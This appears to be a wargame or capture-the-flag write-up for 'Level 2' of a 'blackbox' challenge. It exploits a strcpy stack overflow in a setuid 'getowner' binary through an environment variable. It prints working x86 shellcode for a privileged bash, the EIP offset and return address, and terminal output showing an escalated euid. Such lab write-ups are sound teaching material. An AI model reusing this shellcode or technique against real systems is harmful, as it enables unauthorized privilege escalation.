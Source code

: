 # Level 2

## Details
**Vulnerability:** Buffer overflow

**Memory Security:** None

**Description**

This challenge was a basic buffer overflow. The attack vector for this challenge, is through an environment variable called "filename". The getowner binary reads this information and performs a strcpy, allowing me to smash the stack and gain control of EIP. The payload, which includes a nopsled and shellcode, was stored in an additional environment variable and the address of this environment variables was discovered using the getenvaddr tool.


The first thing I did was smash the stack and enumerate how many bytes it took to overwrite EIP. I used peda's pattern and pattern_search tools in GDB to do this. However, I could have easily done it with Metasploit's pattern_create.rb or similar methods.

Bytes to overwrite EIP: 151(buffer) + 4(ret) = 155

At this point, I created a payload, which consists of a nopsled and my shellcode, and put it in an environment variable called SHELL. I use the getenvaddr tool to find out the memory address, which points to the beginning of my payload.

I then use this address when overriting EIP to execute my shellcode.

## Exploit
Setting up the payload:
```bash
level2@blackbox:~$ export SHELL=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

Getting the SHELL environment variable location:
```bash
level2@blackbox:/tmp/hpl2$ ./getenvaddr SHELL ~/getowner
SHELL will be at 0xbfffdb0c
```

Setting up the buffer overflow and exploitation: 
```bash
level2@blackbox:/tmp/hpl2$ export filename=`python -c 'import struct; print "A" * 151 + struct.pack("<L", 0xbfffdb0c)'`

level2@blackbox:/tmp/hpl2$ ~/getowner 
The owner of this file is: 0
bash-3.1$ id
uid=1003(level2) gid=1005(gamers) euid=1004(level3) groups=1003(level2),1005(gamers)
```


